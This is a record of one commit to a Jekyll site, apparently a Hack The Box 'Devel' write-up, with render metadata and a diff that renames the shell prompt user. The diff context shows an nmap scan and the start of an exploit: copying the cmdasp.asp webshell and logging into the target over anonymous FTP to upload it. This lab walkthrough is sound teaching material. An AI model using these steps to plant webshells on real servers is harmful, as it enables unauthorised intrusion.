

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-04-Devel-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 1703 px. Shown: the part 152-452 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-04-Devel-Writeup.md

````diff
--- a/_posts/2020-10-04-Devel-Writeup.md
+++ b/_posts/2020-10-04-Devel-Writeup.md
@@ -20,7 +20,7 @@ tags: [ftp, iis, windows] # add tag
 ### Enumeration
 
 ```terminal
-argenestel@parrot  ~/Desktop/hackthebox/devel  nmap -sC -sV 10.10.10.5
+root@parrot  ~/Desktop/hackthebox/devel  nmap -sC -sV 10.10.10.5
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 12:43 IST
 Nmap scan report for 10.10.10.5
 Host is up (0.38s latency).
@@ -66,8 +66,8 @@ So we have write privs in ftp and the machine is running windows iis so we can u
 ### Exploitation
 
 ```terminal
-argenestel@parrot  ~/Desktop/hackthebox/devel  cp /usr/share/webshells/asp/cmdasp.asp .
-argenestel@parrot  ~/Desktop/hackthebox/devel  ftp 10.10.10.5
+root@parrot  ~/Desktop/hackthebox/devel  cp /usr/share/webshells/asp/cmdasp.asp .
+root@parrot  ~/Desktop/hackthebox/devel  ftp 10.10.10.5
 Connected to 10.10.10.5.
 220 Microsoft FTP Service
 Name (10.10.10.5:argenestel): anonymous
````
